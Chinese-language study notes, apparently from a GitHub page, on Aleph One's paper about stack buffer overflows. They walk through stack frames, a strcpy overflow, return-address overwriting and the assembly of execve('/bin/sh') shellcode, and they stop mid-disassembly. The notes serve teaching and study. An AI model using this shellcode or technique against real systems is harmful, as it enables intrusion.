







## 论文阅读笔记：Smashing The Stack For Fun And Profit


> 原文：[Smashing The Stack For Fun And Profit](./Smashing_The_Stack_For_Fun_And_Profit.pdf)


### 序

在C编程实现中，Smashing the stack，向程序中一个被定义的数组的末尾写入一些东西可以破坏堆栈的执行结构，这是有可能的。执行这个写操作的代码(code，现在也可以叫做shellcode)可能会破坏堆栈结构，并且导致程序返回之后跳向一个随机的地址。这可能产生一些最隐蔽的依赖数据才能发现的bug。这个变量（指上文中的code）包括堆栈垃圾化（trash the stack）、堆栈乱写（scribble the stack）、堆栈被破坏（mangle the stack）；术语mung the stack并未被使用(the term mung the stack is not used，感觉怪怪的)，正如这不是被故意使用的。看看导致的后果(See spam)，别名bug、在内核中任意执行、内存泄漏、优先权丢失、overrun screw。


### Introduction

在过去的几个月中，发现和利用缓冲区溢出漏洞的人数大大增加。 比如syslog，splitvt，sendmail 8.7.5，Linux / FreeBSD挂载，Xt库等。本文试图解释缓冲区溢出是什么，以及它们的利用方式。 这需要基本的汇编知识。 虚拟内存概念的理解和使用gdb的经验对此非常有帮助，但不是必需的。 我们还假定我们正在使用Intel x86 CPU，并且操作系统是Linux。 

在我们开始之前，我们需要了解一些基本定义：缓冲区只是计算机内存的一个连续块，其中包含相同数据类型的多个实例。  C程序员通常了解字缓冲区数组， 最常见的就是字符数组。 像C中的所有变量一样，数组可以声明为静态或动态。 静态变量在加载时在数据段上分配。 动态变量是在运行时在堆栈上分配的。 溢出是指超过栈顶、超出边界等等。 我们这里将只关注动态缓冲区的溢出，即基于堆栈的缓冲区溢出。


### Process Memory Organization


要了解什么是堆栈缓冲区，我们必须首先了解内存中进程的组织方式。进程被分为三个区域：文本段，数据段和堆栈。我们将集中讨论堆栈，但是首先要对其他两个进行一些概述。文本段由程序固定，包括代码（指令）和只读数据。此区域对应于可执行文件的文本部分，通常标记为“只读”，任何对该部分的写操作都将导致段错误（segment fault）。数据区域包含已初始化数据和未初始化的数据。静态变量存储在该区域中。数据 区域对应于可执行文件的.data(已初始化) 和 .bss(未初始化)部分。可以使用brk（2）system call来更改其大小。如果 .bss 中的数据进行扩展或用户堆栈耗尽了可用的内存，则该进程将被阻塞并重新分配更大的内存空间再次运行。在.data数据段和堆栈段之间添加了新的内存。





### What Is A Stack?


堆栈是计算机科学中经常使用的一种抽象数据类型。对象堆栈的属性是，放置在堆栈上的最后一个对象将是删除的第一个对象。这种特性通常称为先进后出队列或LIFO(Last in First out)。在堆栈上定义了几个操作，最重要的两个是`PUSH`和`POP`。PUSH在堆栈顶部添加一个元素，相反地，POP通过删除堆栈顶部的最后一个元素将堆栈大小减小了一个。


### Why Do We Use A Stack?


现代计算机的设计考虑了高级语言的需求。用于构造高级语言引入的程序的最重要技术是过程或函数。从一个角度来看，过程调用会像跳转一样改变控制流，但是与跳转不同，过程调用完成后，函数会将控制权返回给调用后的语句或指令。这种高级抽象是在堆栈的帮助下实现的。堆栈还用于动态分配函数中使用的局部变量，将参数传递给函数以及从函数获取返回值


### The Stack Region


堆栈是一个包含数据的连续内存块。称为堆栈指针（SP）的寄存器指向堆栈的顶部。堆栈的底部位于固定地址。它的大小由内核在运行时动态调整。CPU执行指令以压入堆栈和从堆栈弹出。堆栈由逻辑堆栈帧组成，这些逻辑堆栈帧在调用函数时被压入， 在返回时弹出。栈帧包含函数的参数，局部变量以及恢复先前堆栈所需的数据帧，包括函数调用时指令指针的值。根据实现的不同，堆栈将向下增长（向较低的存储器地址）或向上增长。在我们的示例中，我们将使用逐渐变小的堆栈（即栈由高地址向低地址增长）。这种堆栈增长方式应用于包括Intel，Motorola，SPARC和MIPS处理器在内的许多计算机处理器上。同时，堆栈指针（SP）也依赖于这种实现。它（sp）可能指向堆栈上的最后一个地址，或者指向堆栈之后的下一个可用空闲地址。对于我们的讨论，我们假设它指向堆栈中的最后一个地址。除了指向堆栈顶部（最低数字地址）的堆栈指针外，通常还有指向固定位置的帧的帧指针（FP）。一些文本也将其称为本地基指针（LB）。原则上，可以通过给出局部变量与SP的偏移量来引用局部变量。但是，随着字（数据）被压入堆栈并从堆栈弹出，这些偏移量会发生变化。尽管在某些情况下编译器可以跟踪堆栈上的字数并因此纠正偏移量，但在某些情况下它不能，并且在所有情况下都需要大量管理。此外，在某些机器（例如基于Intel的处理器）上，以距SP已知距离访问变量需要多个指令。因此，许多编译器使用第二个寄存器FP来引用局部变量和参数，因为它们与FP的距离不会随PUSH和POP的变化而变化。在Intel CPU上，BP（EBP）用于此目的。在Motorola CPU上，除A7（堆栈指针）以外的任何地址寄存器都可以。

由于堆栈增长的方式，实际参数与FP的偏移量为正，局部变量的偏移量为负。函数被调用时必须做的第一件事是保存先前的FP（以便可以在函数退出时将其还原）。然后，它将SP复制到FP(ebp)中以创建新的FP(esp)，并推进SP来为局部变量保留空间。此代码称为过程调用（the procedure prolog、过程序言）。退出函数后，必须再次清理堆栈， 这称为过程结尾。提供了英特尔ENTER和LEAVE指令以及Motorola LINK和UNLINK指令，以高效地执行大多数过程序言和结语。

让我们看一个简单示例中的堆栈： 过程被调用时必须做的第一件事是保存先前的FP（以便可以在过程退出时将其还原）。然后，它将SP复制到FP(ebp)中以创建新的FP(esp)，并推进SP来为局部变量保留空间 。此代码称为过程序言。退出过程后，必须再次清理堆栈，这称为过程结尾。提供了英特尔ENTER和LEAVE指令以及Motorola LINK和UNLINK指令，以高效地执行大多数过程序言和结语。让我们看一个简单示例中的堆栈：过程被调用时必须做的第一件事是保存先前的FP（以便可以在过程退出时将其还原）。然后，它将SP复制到FP中以创建新的FP，并推进SP来为局部变量保留空间。此代码称为过程序言。退出过程后，必须再次清理堆栈，这称为过程结尾。提供了英特尔ENTER和L EAVE指令以及Motorola LINK和UNLINK指令，以高效地执行大多数过程序言和结语。


```c
//example1.c
void function(int a, int b, int c){
    char buffer1[5];
    char buffer2[10];
}

void main(){
    function(1,2,3);
}
```

去理解main函数中调用`function`函数时发生了什么，我们可以用`gcc` 的`-S`选项生成汇编语言

> 我们在64bit编译要加上选项`-m32` ，否则会发现汇编出来和论文中不同，因为论文中用的是32bit环境

```sh
$ gcc -S -o example1.s example1.c -m32
$ cat ./example1.s
	.file	"example1.c"
	.text
	.globl	function
	.type	function, @function
function:
.LFB0:
	.cfi_startproc
	endbr32
	pushl	%ebp
	.cfi_def_cfa_offset 8
	.cfi_offset 5, -8
	movl	%esp, %ebp
	.cfi_def_cfa_register 5
	subl	$24, %esp
	call	__x86.get_pc_thunk.ax
	addl	$_GLOBAL_OFFSET_TABLE_, %eax
	movl	%gs:20, %eax
	movl	%eax, -12(%ebp)
	xorl	%eax, %eax
	nop
	movl	-12(%ebp), %eax
	xorl	%gs:20, %eax
	je	.L2
	call	__stack_chk_fail_local
.L2:
	leave
	.cfi_restore 5
	.cfi_def_cfa 4, 4
	ret
	.cfi_endproc
.LFE0:
	.size	function, .-function
	.globl	main
	.type	main, @function
main:
.LFB1:
	.cfi_startproc
	endbr32
	leal	4(%esp), %ecx
	.cfi_def_cfa 1, 0
	andl	$-16, %esp
	pushl	-4(%ecx)
	pushl	%ebp
	.cfi_escape 0x10,0x5,0x2,0x75,0
	movl	%esp, %ebp
	pushl	%ecx
	.cfi_escape 0xf,0x3,0x75,0x7c,0x6
	subl	$4, %esp
	call	__x86.get_pc_thunk.ax
	addl	$_GLOBAL_OFFSET_TABLE_, %eax
	subl	$4, %esp
	pushl	$3
	pushl	$2
	pushl	$1
	call	function
	addl	$16, %esp
	nop
	movl	-4(%ebp), %ecx
	.cfi_def_cfa 1, 0
	leave
	.cfi_restore 5
	leal	-4(%ecx), %esp
	.cfi_def_cfa 4, 4
	ret
	.cfi_endproc
.LFE1:
	.size	main, .-main
	.section	.text.__x86.get_pc_thunk.ax,"axG",@progbits,__x86.get_pc_thunk.ax,comdat
	.globl	__x86.get_pc_thunk.ax
	.hidden	__x86.get_pc_thunk.ax
	.type	__x86.get_pc_thunk.ax, @function
__x86.get_pc_thunk.ax:
.LFB2:
	.cfi_startproc
	movl	(%esp), %eax
	ret
	.cfi_endproc
.LFE2:
	.hidden	__stack_chk_fail_local
	.ident	"GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0"
	.section	.note.GNU-stack,"",@progbits
	.section	.note.gnu.property,"a"
	.align 4
	.long	 1f - 0f
	.long	 4f - 1f
	.long	 5
0:
	.string	 "GNU"
1:
	.align 4
	.long	 0xc0000002
	.long	 3f - 2f
2:
	.long	 0x3
3:
	.align 4
4:
```

通过观察汇编语言，我们可以看到`function()`的函数调用被翻译为

```assembly
;32bit version
pushl $3 
pushl $2 
pushl $1 
call function
;64bit version 
movl	$3, %edx
movl	$2, %esi
movl	$1, %edi
call	function
```

这将3个参数放入栈中，然后调用`function()`函数。`call`指令将会把指令寄存器（Instruction Pointer，IP）的值放入栈中，将保存在栈中的IP的值称为返回地址（RET）。函数中第一件事所做的是procedure prolog（翻译成过程调用？）

```assembly
pushl %ebp 
movl %esp,%ebp 
subl $20,%esp
```

这将EBP（栈底指针）放入栈中，然后将现在的SP(esp、rsp，栈顶指针)放入EBP中，是其成为新的栈底指针。将已经保存的栈帧指针（FP）称为SFP。然后将esp减去局部变量的大小，为局部变量分配空间。

我们必须记住，内存只能以字大小的倍数来寻址。在我们的例子中，一个字是4Byte，或32位。所以我们的5字节缓冲区需要8字节（2个字）的内存，10字节缓冲区需要12字节（3个字）的内存。这就是为什么SP被减去20。考虑到这一点，调用`function()`时我们的堆栈看起来是这样的（每个空格代表一个字节）：

> 下图中，左边为低地址，右边为高地址。左边为栈顶，右边为栈底。




### Buffer Overflows


缓冲区溢出是由于向缓冲区中填充的数据超出其处理能力而导致的。如何利用这个经常发现的编程错误来执行任意代码呢？我们来看看下面这个例子

```c
//example2.c
void function(char *str) { 
    char buffer[16];
    strcpy(buffer,str);
}
void main() { 
    char large_string[256];
    int i;
    
	for( i = 0; i < 255; i++) 
        large_string[i] = 'A';
    
    function(large_string);
} 
```


这个程序有一个典型的缓冲区溢出编码错误的函数。函数通过使用`strcpy()`而不是使用有边界检查的`strncpy()`去复制字符串。如果你运行这个程序，你会得到一个段错误(segmentation violation)。让我们看看调用函数时它的堆栈是什么样子的




这里发生了什么？为什么我们会遇到段错误？简单来说，`strcpy()` 正在复制内容将`*str`（长字符数组）插入`buffer[]`中，直到在字符串`*str`上找到空字符(`\0`)。我们可以看到`buffer[]`比`*str`小得多。`buffer[]`的长度为16个字节，我们尝试将其填充为256个字节。这意味着堆栈中缓冲区之后的所有240个字节都将被覆盖。这包括`SFP`，`RET` 甚至`* str`！我们已经装满了 `large_string` 字符“ A”。它的十六进制字符值为`0x41`。这意味着返回地址现在为0x41414141。这超出了进程地址空间，这就是为什么当函数返回并尝试从该地址读取下一条指令时，你会遇到段错误的原因。因此，缓冲区溢出使我们可以更改函数的返回地址。这样，我们可以更改程序的执行流程。让我们回到第一个示例，并回顾一下堆栈的外观


让我们尝试修改我们的第一个示例，使其覆盖返回地址，并说明如何使它执行任意代码。堆栈上的`buffer1[]`之前是SFP，返回地址之前是SFP。那是4个字节经过`buffer1[]`的末尾。但是请记住，`buffer1[]`实际上是2个字，因此它的长度为8个字节。因此 ，返回地址是从`buffer1[]`的开头起的12个字节。我们将以使赋值语句`x = 1;`的方式修改返回值。之后函数调用将被跳转至我们指定的地址。为此 ，我们将8个字节添加到返回地址。

```c
//example3.c
//gcc -fno-stack-protector -m32 
void function(int a, int b, int c) { 
    char buffer1[5];
    char buffer2[10];
    
    int *ret;
    ret = buffer1 + 12;
    (*ret) += 8;
}

void main() { 
    int x;
    
    x = 0;
    function(1,2,3);
    x = 1;
    printf("%d\n",x);
}
```

我们所做的只是将`buffer1[]`的地址加了12，然后新地址就是存储了ret的返回地址。我们想要跳过printf的调用，我们怎么知道返回地址需要+8（应该是10）呢？我们可以先测试值（比如example1），编译程序然后用gdb调试

```assembly
$ gdb example3 GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details. GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc... (no debugging symbols found)... 
(gdb) disassemble main Dump of assembler code for function main: 
Dump of assembler code for function main:
0x8000490 :pushl %ebp
0x8000491 :	movl %esp,%ebp
0x8000493 :	subl $0x4,%esp
0x8000496 :	movl $0x0,0xfffffffc(%ebp)
0x800049d :	pushl $0x3
0x800049f :	pushl $0x2
0x80004a1 :	pushl $0x1
0x80004a3 :	call 0x8000470
0x80004a8 :	addl $0xc,%esp
0x80004ab :	movl $0x1,0xfffffffc(%ebp)
0x80004b2 :	movl 0xfffffffc(%ebp),%eax
0x80004b5 :	pushl %eax
0x80004b6 :	pushl $0x80004f8
0x80004bb :	call 0x8000378
0x80004c0 :	addl $0x8,%esp
0x80004c3 :	movl %ebp,%esp
0x80004c5 :	popl %ebp
0x80004c6 :	ret
0x80004c7 :	nop
```

我们可以看到调用`function()`函数的返回地址为`0x8004a8`，而我们想跳过`0x80004ab`处的赋值。我们要执行的下一条指令为`0x8004b2`。一点数学运算即可告诉我们距离为8个字节（应为10个字节）


### Shell Code


因此，既然我们知道可以修改返回地址和执行流程，那么我们要执行什么程序？在大多数情况下，我们只希望程序生成一个shell。然后，可以从shell中根据需要发出其他命令。但是，如果我们尝试利用的程序中没有这样的代码，该怎么办？我们如何将任意指令放入其地址空间？答案是将代码放到你想执行缓冲区溢出的地方，并覆写返回地址，以便它指向缓冲区 。假设堆栈从地址0xFF开始，并且S代表我们要执行堆栈的代码，则将如下所示




在C中生成shell的代码如下：

```c
#include "stdio.h"
void main(){
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0],name,NULL);
}
```

为了找出汇编中的shellcode，我们对其进行编译，然后启动gdb。记住要使用静态标志。否则，实际的代码 执行系统调用将不包括在内。取而代之的是，将有对动态C库的引用，该引用通常会在加载时链接到其中。

```sh
$ gcc -o shellcode -ggdb -static shellcode.c
```

```assembly
$ gcc -o shellcode -ggdb -static shellcode.c [aleph1]$ gdb shellcode GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details. GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc... 
(gdb) disassemble main Dump of assembler code for function main: 
0x8000130 :		pushl %ebp
0x8000131 :		movl %esp,%ebp
0x8000133 :		subl $0x8,%esp
0x8000136 :		movl $0x80027b8,0xfffffff8(%ebp)
0x800013d :		movl $0x0,0xfffffffc(%ebp)
0x8000144 :		pushl $0x0
0x8000146 :		leal 0xfffffff8(%ebp),%eax
0x8000149 :		pushl %eax
0x800014a :		movl 0xfffffff8(%ebp),%eax
0x800014d :		pushl %eax
0x800014e :		call 0x80002bc <__execve>
0x8000153 :		addl $0xc,%esp
0x8000156 :		movl %ebp,%esp
0x8000158 :		popl %ebp
0x8000159 :		ret
End of assembler dump
(gdb) disassemble __execve 
Dump of assembler code for function __execve: 
0x80002bc <__execve>:		pushl %ebp
0x80002bd <__execve+1>:		movl %esp,%ebp
0x80002bf <__execve+3>:		pushl %ebx
0x80002c0 <__execve+4>:		movl $0xb,%eax
0x80002c5 <__execve+9>:		movl 0x8(%ebp),%ebx
0x80002c8 <__execve+12>:	movl 0xc(%ebp),%ecx
0x80002cb <__execve+15>:	movl 0x10(%ebp),%edx
0x80002ce <__execve+18>:	int	$0x80
0x80002d0 <__execve+20>:	movl %eax,%edx
0x80002d2 <__execve+22>:	testl %edx,%edx
0x80002d4 <__execve+24>:	jnl	0x80002e6 <__execve+42>
0x80002d6 <__execve+26>:	negl %edx
0x80002d8 <__execve+28>:	pushl %edx
0x80002d9 <__execve+29>:	call 0x8001a34 <__normal_errno_location>
0x80002de <__execve+34>:	popl %edx
0x80002df <__execve+35>:	movl %edx,(%eax)
0x80002e1 <__execve+37>:	movl $0xffffffff,%eax
0x80002e6 <__execve+42>:	popl %ebx
0x80002e7 <__execve+43>:	movl %ebp,%esp
0x80002e9 <__execve+45>:	popl %ebp
0x80002ea <__execve+46>:	ret
0x80002eb <__execve+47>:	nop
End of assembler dump.
```


------


让我们了解这发生了什么，我们从main函数开始

```assembly
0x8000130 :		pushl %ebp
0x8000131 :		movl %esp,%ebp
0x8000133 :		subl $0x8,%esp
```

这就是程序的前奏，他首先保存旧的栈帧指针，保证现在的栈顶指针是一个新的栈帧指针，然后为局部变量留出空间。在这个shellcode的例子中，`char *name[2]` ，2个只想char字符的指针，指针大小为一个字的长度，所以这里会开拓两个字的容量（8 byte）

> * `movl` 和 `leal` 指令区别：
>
> `movl`是把访问的内存内容赋值给寄存器， leal是將地址赋值给寄存器
> `movl 0x18(%edx), %eax`
> `leal 0x18(%edx), %eax`
> `leal`将 `0x18(%edx)`处的内容，比如是数字4，将4的地址给eax
> `movl`则是`0x18(%edx)`的内容直接给`eax`，比如是数字4，就是将4这个值给eax

```assembly
0x8000136 : movl $0x80027b8,0xfffffff8(%ebp)
```

我们复制值 `0x80027b8`  (指向字符串`"/bin/sh"`的地址)到name的第一个指针。这相当于`char[0] = "/bin/sh";` 

```assembly
0x800013d : movl $0x0,0xfffffffc(%ebp)
```

我们将NULL的值(0x0)放到name数组的第二个指针中，相当于`name[1] = NULL;`，对`execve()`的实际调用从这里开始

```assembly
0x8000144 : pushl $0x0
```

我们将`execve()`的参数倒序推进栈中。我们从`NULL`值开始

```assembly
0x8000146 : leal 0xfffffff8(%ebp),%eax
```

然后我们加载`name[]`数组的地址到`eax`寄存器

```assembly
0x8000149 : pushl %eax
```

我们将`name[]`数组的地址推进栈中

```assembly
0x800014a : movl 0xfffffff8(%ebp),%eax
```

我们加载字符串`"/bin/sh"` 的地址到eax寄存器中

```assembly
0x800014d : pushl %eax
```

将`"/bin/sh"`推进栈中

```assembly
0x800014e : call 0x80002bc <__execve> Call
```

调用库函数`execve()` ，`call`指令将下一个指令指针（IP）推进栈中

现在执行`execve()` ，注意我们使用的是基于Intel处理器的linux系统。这个系统调用的细节可能会因操作系统和CPU的变化而变化。一些会传递参数到栈中，另一些会将参数放进寄存器中。一些使用软件中断跳转到内核模式，一些用远程调用（a far call）。Linux通过寄存器传递参数给系统调用，使用软件中断进入内核模式。


------


```assembly
0x80002bc <__execve>: pushl %ebp 
0x80002bd <__execve+1>: movl %esp,%ebp 
0x80002bf <__execve+3>: pushl %ebx
```

这是调用前奏。

```assembly
0x80002c0 <__execve+4>: movl $0xb,%eax
```

将`0xb` （十进制的11）放入栈中，11是`execve`在系统调用表中的索引(index)

> Linux可在一下路径下找到汇编的系统调用的index：`/usr/src/linux/include/asm/unistd.h`

```assembly
0x80002c5 <__execve+9>: movl 0x8(%ebp),%ebx
```

将`"/bin/sh"`的地址放入`ebx`寄存器

```assembly
0x80002c8 <__execve+12>: movl 0xc(%ebp),%ecx
```

将`name[]`的地址放入`ecx`寄存器

```assembly
0x80002cb <__execve+15>: movl 0x10(%ebp),%edx
```

将空指针(NULL值)的地址放入`edx`寄存器

```assembly
0x80002ce <__execve+18>: int	$0x80
```

转换成内核模式

------


正如上面我们所看到的`execve()`的系统调用没有很多，我们所要做的仅仅是：

* a. 以`\0`结尾的字符串`"/bin/sh"`放入内存中(a null terminated string "/bin/sh")
* b. 在内存中的某个位置放置一个后跟一个空的字的字符串`"/bin/sh"`
* c. 将`0xb`放入`eax`寄存器中（`execve`的系统调用）
* d. 将`"/bin/sh"`字符串的指针的地址放入`ebx`寄存器中
* e. 将`"/bin/sh"`字符串的指针放入`ecx`寄存器中
* f. 将空指针复制进`EDX`寄存器中
* g. 执行`int $0x80`指令


> [what-is-a-null-terminated-string](https://stackoverflow.com/questions/2037209/what-is-a-null-terminated-string)


但是假如`execve()`的调用由于某些原因失败了呢？程序会继续从栈中获取指令指针，这个指针可能指向一些随机数据！程序最终可能引发core dump (核心转储)。我们想要程序在`execve()`调用失败时干净地退出。去完成这个功能，我们必须在`execve()`调用后增添`exit()`的调用。`exit()`调用长什么样呢？


```c
//exit.c
#include <stdlib.h>
void main(){
    exit(0);
}
```


```assembly
$ gcc -o exit -static exit.c 
$ gdb exit GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details. GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc... (no debugging symbols found)... 
(gdb) disassemble _exit 
Dump of assembler code for function _exit: 
0x800034c <_exit>:	pushl %ebp
0x800034d <_exit+1>:	movl %esp,%ebp
0x800034f <_exit+3>:	pushl %ebx
0x8000350 <_exit+4>:	movl $0x1,%eax
0x8000355 <_exit+9>:	movl 0x8(%ebp),%ebx
0x8000358 <_exit+12>: 	int$0x80
0x800035a <_exit+14>: 	movl 0xfffffffc(%ebp),%ebx 
0x800035d <_exit+17>: 	movl %ebp,%esp 
0x800035f <_exit+19>: 	popl %ebp 
0x8000360 <_exit+20>: 	ret 
0x8000361 <_exit+21>: 	nop 
0x8000362 <_exit+22>: 	nop 
0x8000363 <_exit+23>: 	nop 
End of assembler dump.
```

`exit()`的系统调用会把`0x1`放到`eax`，将退出代码(exit code)放入`ebx`寄存器，然后执行`int 0x80` 。大多程序return 0在exit code，意味着没有错误。我们将0放到`ebx`寄存器中。现在我们的步骤如下


* a. 以`\0`结尾的字符串`"/bin/sh"`放入内存中(a null terminated string "/bin/sh")
* b. 在内存中的某个位置放置一个后跟一个空的字的字符串`"/bin/sh"`
* c. 将`0xb`放入`eax`寄存器中（`execve`的系统调用）
* d. 将`"/bin/sh"`字符串的指针的地址放入`ebx`寄存器中
* e. 将`"/bin/sh"`字符串的指针放入`ecx`寄存器中
* f. 将空指针复制进`EDX`寄存器中
* g. 执行`int $0x80`指令
* h. 将`0x1`放入`eax`寄存器中
* i. 将`0x0`放入`ebx`寄存器中
* j. 执行`int 0x80`指令

尝试将以上放入汇编语言中，将字符串放到代码后，然后记住我们放字符串的地址，然后在数组后面跟的一个空字符，如下：

```assembly
movl string_addr,string_addr_addr 
movb $0x0,null_byte_addr 
movl $0x0,null_addr 
movl $0xb,%eax 
movl string_addr,%ebx 
leal string_addr,%ecx 
leal null_string,%edx 
int	$0x80
movl $0x1, %eax 
movl $0x0, %ebx 
int	$0x80 
/bin/sh string goes here.
```

现在问题是，我们不知道我们想要exp代码会放在程序的内存空间的何处。有一个办法是我们用jmp和call指令跳转。jmp指令和call指令可以使用指令寄存器中(IP)相关的地址，意味着在我们不知道我们想要跳转的确切地址时，我们跳转至相对于指令指针有一定偏移量的地址（相对寻址）。如果我们在  `"/bin/sh"` 字符串之前放置一条`CALL`指令，并在其前面放置一条`JMP`指令，则在执行`CALL`时，字符串地址将被作为返回地址压入堆栈。然后，我们所要做的就是将返回地址复制到寄存器中。CALL指令可以简单地调用上面代码的开头。 现在假设`J`代表`JMP`指令，`C`代表`CALL`指令，而`s`代表字符串



（图中没有足够的小s，strlen("/bin/sh") == 7）在这个修改下，用索引寻址，然后写下每个指令占用我们代码的字节数，如下所示：

```assembly
jmp		offset-to-call	# 2 bytes
popl 	%esi			# 1 byte
movl 	%esi,array-offset(%esi) 	# 3 bytes 
movb 	$0x0,nullbyteoffset(%esi)	# 4 bytes 
movl 	$0x0,null-offset(%esi) 		# 7 bytes 
movl 	$0xb,%eax		# 5 bytes
movl 	%esi,%ebx		# 2 bytes
leal 	array-offset(%esi),%ecx 	# 3 bytes 
leal 	null-offset(%esi),%edx 		# 3 bytes 
int	$0x80				# 2 bytes
movl 	$0x1, %eax		# 5 bytes
movl 	$0x0, %ebx		# 5 bytes
int	$0x80				# 2 bytes
call 	offset-to-popl	# 5 bytes
/bin/sh string goes here
```

计算jmp和call之间的偏移量，call和popl之间的偏移量，字符串地址和数组的偏移量，以及字符串数组和空字符的偏移量

如下：

```assembly
jmp 0x26 				# 2 bytes
popl 	%esi 			# 1 byte 
movl 	%esi,0x8(%esi) 	# 3 bytes
movb 	$0x0,0x7(%esi) 	# 4 bytes
movl 	$0x0,0xc(%esi) 	# 7 bytes
movl 	$0xb,%eax 		# 5 bytes
movl 	%esi,%ebx		# 2 bytes
leal 	0x8(%esi),%ecx 	# 3 bytes
leal 	0xc(%esi),%edx	# 3 bytes
int		$0x80			# 2 bytes
movl 	$0x1, %eax 		# 5 bytes
movl 	$0x0, %ebx		# 5 bytes
int		$0x80			# 2 bytes
call 	-0x2b 			# 5 bytes
.string \"/bin/sh\"		# 8 bytes
            
```

看起来挺好的，确定这个能正常工作我们必须尝试去编译并运行他。但是这里有个问题，我们的代码会修改他自己(where? 个人认为是在编译阶段的优化)，但是大多的操作系统把代码段标记为read-only。为了绕过这个限制，我们必须将要执行的代码放在堆栈或数据段中，并将控制权转移给它。为此，我们将把代码放在数据段的全局数组中。我们首先需要二进制代码的十六进制表示。让我们先编译它，然后使用gdb获得它

```c
//shellcodeasm.c
void main(){ 
    __asm__(" 
            jmp	0x2a 					# 3 bytes
            popl %esi				 	# 1 byte
			movl %esi,0x8(%esi) 		# 3 bytes
            movb $0x0,0x7(%esi)			# 4 bytes
  			movl $0x0,0xc(%esi) 		# 7 bytes
            movl $0xb,%eax 				# 5 bytes
            movl %esi,%ebx				# 2 bytes
			leal 0x8(%esi),%ecx 		# 3 bytes
            leal 0xc(%esi),%edx			# 3 bytes
			int	$0x80					# 2 bytes
			movl $0x1, %eax 			# 5 bytes
            movl $0x0, %ebx				# 5 bytes
            int	$0x80					# 2 bytes
			call -0x2f 					# 5 bytes
            .string \"/bin/sh\"			# 8 bytes
            "); 
}
```


```assembly
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c 
[aleph1]$ gdb shellcodeasm GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details. GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc... 
(gdb) disassemble main Dump of assembler code for function main:
0x8000130 :pushl %ebp
0x8000131 :movl %esp,%ebp
0x8000133 :jmp	0x800015f
0x8000135 :popl %esi
0x8000136 :movl %esi,0x8(%esi)
0x8000139 :movb $0x0,0x7(%esi)
0x800013d :movl $0x0,0xc(%esi)
0x8000144 :movl $0xb,%eax
0x8000149 :movl %esi,%ebx
0x800014b :leal 0x8(%esi),%ecx
0x800014e :leal 0xc(%esi),%edx
0x8000151 :int	$0x80
